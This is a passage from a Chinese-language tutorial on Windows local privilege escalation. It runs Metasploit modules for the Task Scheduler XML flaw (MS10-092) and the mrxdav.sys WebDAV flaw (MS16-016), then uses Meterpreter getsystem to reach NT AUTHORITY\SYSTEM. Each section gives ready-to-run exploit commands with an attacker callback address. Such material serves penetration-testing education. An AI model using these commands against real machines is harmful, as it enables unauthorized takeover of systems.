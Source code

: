 可以看到，我们当前的用户权限已提升为了**NT AUTHORITY\SYSTEM**

**![Windows内核漏洞利用提权教程](https://image.3001.net/images/20180913/1536801792_5b99bc00807a0.png!small)**

## **Task Scheduler XML提权**

此漏洞发生在Task Scheduler中，可允许用户提升权限。如果攻击者登录到受影响的系统，并运行特制应用程序，则该漏洞可能允许特权提升。攻击者必须拥有有效的登录凭据，并且能够在本地登录才能成功利用此漏洞。远程或匿名用户则无法利用此漏洞。

该模块已在Windows Vista，Windows 7，Windows Server 2008 x64和x86的易受攻击版本上进行了测试。

让我们转到MSF控制台并执行该漏洞的exploit模块

```bash
use exploit/windows/local/ms10_092_schelevator
set lhost 192.168.1.107
set session 1
exploit
```

一旦exploit成功执行，就会打开另一个Meterpreter session

```bash
getsystem
getuid
```

可以看到，我们当前的用户权限已提升为了**NT AUTHORITY\SYSTEM**

**![Windows内核漏洞利用提权教程](https://image.3001.net/images/20180913/1536801808_5b99bc10bfd98.png!small)**

## **MS16-016 mrxdav.sys WebDav本地提权**

此模块利用了mrxdav.sys中的漏洞。其将在目标系统生成一个进程，并在执行payload之前将其权限提升到NT AUTHORITY\SYSTEM。

该模块已在Windows 7 SP1，x86架构的易受攻击版本上进行了测试。

让我们转到MSF控制台并执行该漏洞的exploit模块

```bash
use exploit/windows/local/ms16_016_webdav
set lhost 192.168.1.107
set session 1
exploit
```

一旦exploit成功执行，就会打开另一个Meterpreter session

```bash
getsystem
getuid
```

可以看到，我们当前的用户权限已提升为了**NT AUTHORITY\SYSTEM**

**![Windows内核漏洞利用提权教程](https://image.3001.net/images/20180913/1536801825_5b99bc210f0ea.png!small)**

## **EPATHOBJ::pprFlattenRec本地提权**
